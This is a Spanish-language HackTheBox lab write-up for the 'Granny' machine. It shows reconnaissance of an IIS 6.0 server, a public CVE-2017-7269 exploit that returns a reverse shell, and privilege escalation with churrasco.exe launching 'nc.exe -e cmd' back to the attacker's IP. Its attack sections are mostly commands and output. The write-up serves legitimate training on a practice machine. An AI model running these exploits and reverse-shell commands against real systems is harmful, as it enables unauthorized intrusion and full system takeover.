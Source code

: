 ```yaml
---
title: HTB - Granny
published: true
categories: [Windows]
tags: [eJPT, eWPT, OSCP, Fácil]
---
```



<img src="/assets/HTB/Granny/granny.png">

¡Hola!
Vamos a resolver de la máquina `Granny` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Microsoft IIS 6.0 - CVE-2017-7269**
- **Churrasco [Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Granny`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.15
PING 10.10.10.15 (10.10.10.15) 56(84) bytes of data.
64 bytes from 10.10.10.15: icmp_seq=1 ttl=127 time=42.3 ms

--- 10.10.10.15 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Windows** debido a su ttl (time to live) correspondiente a 127 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p80 10.10.10.15 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Fri, 28 Oct 2022 15:07:39 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
whatweb 10.10.10.15

http://10.10.10.15 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

### IIS Exploit

* * *

Observamos que la máquina víctima está corriendo bajo **Microsoft IIS 6.0**. Tras una búsqueda en Google encontramos que esta versión de IIS es vulnerable al exploit [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-7269) por lo que utilizaremos la herramienta del github de [g0rx](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) que nos va a generar una reverse shell directamente con la máquina víctima.

Descarga de exploit

```bash
cd ../exploits
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
mv iis6\ reverse\ shell iisExploit.py
```
Ejecutamos el exploit y nos indica el modo de uso

```bash
python iisExploit.py
usage:iis6webdav.py targetip targetport reverseip reverseport
```

Creamos un listener

```bash
rlwrap nc -lnvp 443
```

Ejecutamos el exploit

```bash
python iisExploit.py 10.10.10.15 80 10.10.14.94 443
```
Reverse Shell

```bash
listening on [any] 443 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

### Escalada Privilegios

* * *

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar la enumeración de permisos y tareas con la finalidad de lograr escalar privilegios.

Enumeración privilegios de usuario

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Detectamos que tenemos el privilegio asignado `SeImpersonatePrivilege` gracias al cual podemos escalar privilegios con la variante de la herramienta `JuicyPotato.exe` denominada `churrasco.exe`, procedemos a su descarga en el directorio de trabajo `exploits` desde el GitHub de [Re4son](https://github.com/Re4son/Churrasco/)

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```
También nos descargamos en el directorio de trabajo la herramienta `nc.exe` del repositorio de GitHub de [int0x33](https://github.com/int0x33/nc.exe/)

Proecedemos a subir la herramienta `churrasco.exe` a la máquina víctima creando un recurso compartido a nivel de red con `impacket-smbserver`

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

En la máquina víctima ingresamos a la carpeta `C:\Windows\Temp`, creamos la carpeta `privesc` y copiamos el archivo `churrasco.exe`

```bash
cd c:\Windows\Temp
md privesc
cd privesc
copy \\10.10.14.94\smbFolder\churrasco.exe churrasco.exe
```

Creamos un listener

```bash
rlwrap nc -lnvp 443
```

Ejecutamos en la máquina víctima `churrasco.exe` para que ejecute con privilegios `nc.exe` y así establecer una reverse shell con privilegios de `nt authority\system`

```bash
churrasco.exe "\\10.10.14.94\smbFolder\nc.exe -e cmd 10.10.14.94 443"
```

Obtenemos una shell como `nt authority\system`

```bash
whoami
nt authority\system
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `type` nos muestra el contenido.

```bash
#USER
cd c:\
dir /b/s user.txt
C:\Documents and Settings\Lakis\Desktop\user.txt
```

```bash
#ROOT
dir /b/s root.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```

Hemos completado la máquina **Granny** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Granny/pwned.png">